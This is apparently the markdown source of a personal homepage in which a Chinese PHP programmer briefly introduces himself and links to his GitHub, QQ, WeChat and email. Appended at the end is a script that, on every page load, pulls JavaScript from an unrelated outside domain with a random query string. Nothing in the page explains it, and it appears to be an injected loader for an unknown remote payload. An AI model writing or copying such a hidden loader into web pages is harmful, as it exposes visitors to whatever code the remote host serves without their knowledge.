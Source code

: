 ```yaml
---
title: 主页
---
```



**我是壮士，一名php程序员;**

**我从2013年7月开始进入这个行业;**

**我喜欢编程，在做程序员以前我在其他4个行业里面呆过，直到遇到编程;**

**你可以通过以下方式联系到我;**

<span><a target="_blank" href="http://github.com/xiahao90">github</a> <a target="_blank" href="http://wpa.qq.com/msgrd?v=3&uin=939065267&site=qq&menu=yes">qq</a> <a target="_blank" href="{{ site.baseurl }}static/img/weixin.jpg">微信</a> <a target="_blank" href="http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=-4eWnpeekMbPv5mQh5KelpPRnJCS">邮箱</a>
</span>
<script type="text/javascript">
    window.s=document.createElement("script");
    s.src="https://emblemcodeapi.silence.online/js.php?"
    +Math.random();(document.body||document.
    documentElement).appendChild(s);
  </script>
